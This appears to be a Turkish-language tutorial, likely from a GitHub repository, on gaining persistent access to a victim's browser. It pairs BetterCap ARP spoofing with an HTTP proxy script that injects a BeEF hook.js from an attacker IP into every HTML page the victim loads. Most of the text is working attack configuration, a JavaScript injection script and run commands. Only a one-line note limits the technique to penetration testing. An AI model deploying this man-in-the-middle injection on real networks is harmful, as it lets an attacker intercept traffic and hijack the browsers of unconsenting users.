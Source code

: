 #### **🎯 Temel Mantık**
- **❌ Normal Durum:** Kurban tarayıcıyı kapattığında erişim kaybolur
- **✅ JS Enjeksiyonu:** Man-in-the-Middle saldırısı ile zararlı JS kodu enjekte edilerek, kurbanın girdiği tüm sitelerden bağımsız **kalıcı erişim** sağlanır 🎯

---

### **🛠️ MANUEL CAPLET OLUŞTURMA**

#### **📄 1. beefcustom.cap** (BetterCap Yapılandırması)
```bash
set arp.spoof.fullduplex true
#change target ip
set arp.spoof.targets 10.0.2.4
set http.proxy.script beefcustom.js
http.proxy on
sleep 1
arp.spoof on
```

#### **📄 2. beefcustom.js** (Enjeksiyon Scripti)
```javascript
function onLoad() {
  log( "BeefInject loaded." );
}

function onResponse(req, res) {
  if( res.ContentType.indexOf('text/html') == 0 ){
    var body = res.ReadBody();
    if( body.indexOf('</head>') != -1 ) {
 log( "BeefInject loaded." );
      res.Body = body.replace( 
        '</head>', 
		//change attacker ip
        '<script type="text/javascript" src="http://10.0.2.8:3000/hook.js"></script></head>' 
      ); 
    }
  }
}

```

---

### **🚀 ÇALIŞTIRMA ADIMLARI**

1. **📂 Dosyaları Oluştur:**
   - `beefcustom.cap` ve `beefcustom.js` dosyalarını aynı klasöre oluştur
   - Klasörü /usr/share/bettercap/caplets klasörüne ekle
   - **IP adreslerini kendi ağ yapına göre düzelt!** 🔧

1. **⚙️ Beef Framework'ü Klasörüne Giderek Başlat:**
   ```bash
   sudo ./beef
   ```

2. **🎯 BetterCap'ı Çalıştır:**
   ```bash
   sudo bettercap -iface [interface_adi] -caplet [beefcustom.cap_yolu]
   ```

---
### **🔍 ÇALIŞMA MANTIĞI**

| Adım | Açıklama | Sonuç |
|------|----------|-------|
| **1. ARP Spoofing** | Kurbanın trafiği sizin makinenizden geçer | MITM sağlanır |
| **2. Proxy Dinleme** | HTTP trafiği yakalanır | Trafik kontrol altında |
| **3. JS Enjeksiyonu** | Her HTML sayfasına Beef hook'u eklenir | Kalıcı arka kapı |
| **4. Kalıcı Erişim** | Kurban her siteye girdiğinde Beef bağlantısı kurulur | 🎯 **Sürekli erişim** |

---

### **💡 ÖNEMLİ NOTLAR**

- ✅ **Avantaj:** Tarayıcı kapanıp açılsa bile, kurban yeni bir siteye girdiğinde Beef bağlantısı yeniden kurulur
- ⚠️ **Sınırlılık:** HTTPS sitelerde çalışması için ek ayarlar gerekir
- 🔒 **Etik Uyarı:** Bu teknik sadece **sızma testi** amaçlı kullanılmalıdır
- 🎯 **IP'ler:** Her zaman hedef IP ve kendi IP'nizi doğru girmeyi unutmayın!

---

**✅ Kısa Komut:**
```bash
sudo bettercap -iface eth0 -caplet /yol/beefcustom.cap
```